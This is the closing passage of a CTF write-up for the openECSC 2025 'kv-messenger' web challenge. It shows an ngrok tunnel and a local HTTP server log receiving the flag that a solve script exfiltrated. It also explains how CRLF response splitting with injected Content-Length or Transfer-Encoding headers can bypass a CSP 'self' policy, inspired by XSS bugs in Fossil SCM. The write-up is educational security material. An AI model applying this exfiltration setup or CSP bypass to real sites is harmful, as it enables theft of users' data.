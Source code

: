 ```shell
┌[siunam@~/ctf/openECSC-2025/web/kv-messenger]-[2025/10/03|20:12:15(HKT)]
└> ngrok tcp 8001
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:13656 -> localhost:8001                             
[...]
```

- Run the solve script

```shell
┌[siunam@~/ctf/openECSC-2025/web/kv-messenger]-[2025/10/03|20:13:08(HKT)]
└> python3 solve.py
```

- HTTP server log

```shell
┌[siunam@~/ctf/openECSC-2025/web/kv-messenger]-[2025/10/03|20:39:28(HKT)]
└> python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
127.0.0.1 - - [03/Oct/2025 20:40:36] "GET /?flag=openECSC{c21f_1nj3c710n_4nd_73_f02_7h3_w1n} HTTP/1.1" 200 -
[...]
```

- Flag: **`openECSC{c21f_1nj3c710n_4nd_73_f02_7h3_w1n}`**

## Why I Made This Challenge

This challenge was inspired from a 0-day web challenge in corCTF 2025, web/git. During solving that challenge, I found 3 XSS vulnerabilities in [Fossil SCM](https://fossil-scm.org/), where 2 of them are CRLF injection related.

In those CRLF injection vulnerabilities, I was able to gain reflected XSS via response splitting. However, the CSP has directive `script-src` and its source is `self`. Luckily, the response doesn't have `Content-Length` header and the web server uses HTTP/0.9, it's possible to bypass the CSP by injecting a new `Content-Length`  header. See [my tweet for more details](https://x.com/siunam321/status/1962525358680604980).

Also in that tweet, @[m0z](https://x.com/LooseSecurity) [suggested that](https://x.com/LooseSecurity/status/1963183777003237427) it might be possible to achieve the same goal by injecting `Transfer-Encoding` response header with `chunked` encoding:

![](https://github.com/siunam321/CTF-Writeups/blob/main/openECSC-2025/images/Pasted%20image%2020251003213227.png)

